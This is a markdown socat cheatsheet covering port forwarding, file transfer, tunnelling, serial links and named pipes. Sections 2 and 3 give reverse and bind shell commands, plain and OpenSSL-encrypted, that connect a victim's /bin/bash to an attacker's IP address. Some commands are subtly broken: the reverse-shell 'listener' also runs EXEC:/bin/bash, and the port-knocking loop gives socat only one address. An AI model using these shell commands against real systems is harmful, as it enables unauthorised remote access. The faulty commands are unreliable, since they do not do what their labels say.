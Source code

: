```yaml
---
title: Socat
tags:
  - socat
  - cheatsheet
---
```


## 1. Basic Commands

### 1.1 Simple TCP Port Forwarding

```bash
# Forward traffic from a local port to a remote address and port
socat TCP-LISTEN:<local-port>,reuseaddr,fork TCP:<remote-ip>:<remote-port>
```

### 1.2 UDP Port Forwarding

```bash
# Forward traffic from a local UDP port to a remote UDP address and port
socat UDP-LISTEN:<local-port>,reuseaddr,fork UDP:<remote-ip>:<remote-port>
```

### 1.3 Connecting to a TCP Port

```bash
# Connect to a remote TCP service
socat TCP:<remote-ip>:<remote-port> -
```

### 1.4 Connecting to a UDP Port

```bash
# Connect to a remote UDP service
socat UDP:<remote-ip>:<remote-port> -
```

## 2. Reverse Shells

### 2.1 Simple Reverse Shell

```bash
# On the attacker's machine (listener)
socat TCP-LISTEN:<port>,reuseaddr,fork EXEC:/bin/bash

# On the victim's machine (reverse shell)
socat TCP:<attacker-ip>:<port> EXEC:/bin/bash
```

### 2.2 Encrypted Reverse Shell with OpenSSL

```bash
# On the attacker's machine (listener with OpenSSL)
socat OPENSSL-LISTEN:<port>,reuseaddr,fork,cert=cert.pem,cafile=ca.pem EXEC:/bin/bash

# On the victim's machine (reverse shell with OpenSSL)
socat OPENSSL:<attacker-ip>:<port>,verify=0 EXEC:/bin/bash
```

## 3. Bind Shells

### 3.1 Simple Bind Shell

```bash
# On the victim's machine (bind shell)
socat TCP-LISTEN:<port>,reuseaddr,fork EXEC:/bin/bash

# On the attacker's machine (connect to bind shell)
socat TCP:<victim-ip>:<port> -
```

### 3.2 Encrypted Bind Shell with OpenSSL

```bash
# On the victim's machine (bind shell with OpenSSL)
socat OPENSSL-LISTEN:<port>,reuseaddr,fork,cert=cert.pem,cafile=ca.pem EXEC:/bin/bash

# On the attacker's machine (connect to bind shell with OpenSSL)
socat OPENSSL:<victim-ip>:<port>,verify=0 -
```

## 4. File Transfers

### 4.1 Sending a File

```bash
# On the sender's machine
socat TCP-LISTEN:<port>,reuseaddr,fork FILE:<file-to-send>

# On the receiver's machine
socat TCP:<sender-ip>:<port> FILE:<output-file>,create
```

### 4.2 Receiving a File

```bash
# On the receiver's machine
socat TCP-LISTEN:<port>,reuseaddr,fork FILE:<output-file>,create

# On the sender's machine
socat TCP:<receiver-ip>:<port> FILE:<file-to-send>
```

## 5. Port Knocking

```bash
# Simple port knocking example
for x in {1111,2222,3333}; do socat TCP:<target-ip>:$x; done
```

## 6. Proxy and Tunneling

### 6.1 TCP Proxy

```bash
# Create a TCP proxy between a local and remote address
socat TCP-LISTEN:<local-port>,reuseaddr,fork TCP:<remote-ip>:<remote-port>
```

### 6.2 HTTP Proxy

```bash
# Create an HTTP proxy (acts as a basic web proxy)
socat TCP-LISTEN:<local-port>,reuseaddr,fork PROXY:<proxy-ip>:<proxy-port>
```

### 6.3 SSH Tunneling

```bash
# Tunnel SSH over a Socat connection
socat TCP-LISTEN:<local-port>,reuseaddr,fork TCP:<ssh-server-ip>:22
```

## 7. Redirecting Traffic

### 7.1 Redirect Traffic to Another Host

```bash
# Redirect incoming traffic to another host
socat TCP-LISTEN:<local-port>,reuseaddr,fork TCP:<target-ip>:<target-port>
```

### 7.2 Redirect Traffic to a File

```bash
# Redirect incoming traffic to a file
socat TCP-LISTEN:<local-port>,reuseaddr,fork FILE:<output-file>
```

## 8. Serial Communication

### 8.1 Simple Serial Port Communication

```bash
# Communication between two serial ports
socat /dev/ttyS0,raw,echo=0 /dev/ttyS1,raw,echo=0
```

### 8.2 Serial to TCP

```bash
# Forward serial port data to a TCP connection
socat /dev/ttyS0,raw,echo=0 TCP:<target-ip>:<port>
```

## 9. Working with Pipes

### 9.1 Create a Named Pipe

```bash
# Create a named pipe for inter-process communication
mkfifo /tmp/pipe
socat -u PIPE:/tmp/pipe TCP-LISTEN:<port>
```

### 9.2 Connect a Process to a Named Pipe

```bash
# Connect a process output to a named pipe
socat EXEC:'<command>' PIPE:/tmp/pipe
```

## 10. References

- [Socat Man Page](http://www.dest-unreach.org/socat/doc/socat.html)
- [High On Coffee - Socat Cheatsheet](https://highon.coffee/blog/socat-cheatsheet/)
